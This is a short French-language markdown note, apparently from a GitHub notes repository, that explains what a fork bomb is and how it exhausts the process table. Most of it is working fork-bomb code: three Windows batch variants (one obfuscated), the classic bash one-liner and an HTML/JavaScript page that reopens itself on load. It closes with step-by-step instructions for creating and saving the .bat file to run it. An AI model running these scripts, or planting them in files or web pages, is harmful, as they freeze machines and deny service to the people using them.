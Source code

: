 # Fork bomb
La fork bomb est une forme d'attaque par déni de service contre un système informatique utilisant la fonction fork.  

Elle est basée sur la supposition que le nombre de programmes et de processus pouvant être exécutés simultanément sur un ordinateur est limité.

## Principe
Une fork bomb fonctionne en créant un grand nombre de processus très rapidement, au moyen de la fonction fork, afin de saturer l'espace disponible dans la liste des processus gardée par le système d'exploitation.  

Si la table des processus se met à saturer, aucun nouveau programme ne peut démarrer tant qu'aucun autre ne termine.  

Même si cela arrive, il est peu probable qu'un programme utile démarre étant donné que les instances de la bombe attendent chacune d'occuper cet emplacement libre.

# Code
```
@echo off
:start
start
goto :start
```
[forkBomb.bat](https://github.com/Altherneum/.github/blob/main/note/OS/Windows/Scripts/forkbomb.bat)

## Variante Windows (Batch)
```
%0|%0
```
[forkBomb2.bat](https://github.com/Altherneum/.github/blob/main/note/OS/Windows/Scripts/forkbomb2.bat)

## Variante Windows 2 (Batch)
```
@echo.%0^|%0>$^_^.c^md&$_>nul
```
[forkBomb3.bat](https://github.com/Altherneum/.github/blob/main/note/OS/Windows/Scripts/forkbomb3.bat)

## Variante Linux (Bash)
```
:(){ :|:& };:
```
[forkBomb.sh](https://github.com/Altherneum/.github/blob/main/note/OS/Linux/forkBomb.sh)

## Variante HTML / JS
```
<script type="text/javascript">
  function open_target_blank() 
  {
    window.open(window.location);
  }
  window.onload = open_target_blank();
</script>
```
[forkBomb.html](https://github.com/Altherneum/.github/blob/main/note/Code/Web/HTML/forkBomb.html)

# Comment utiliser

## Créer le fichier
- Créer un fichier [NOM].bat
- Modifier le text du fichier avec le code suivant : [Code](#Code)
- Vérifier que vous enregistrez bien le type de fichier en "Tout type de fichier" et non pas text uniquement
![notepad_hreGWL4UXj](https://github.com/Altherneum/.github/blob/main/note/assets/images/saveAsMatrice.bat.png?raw=true)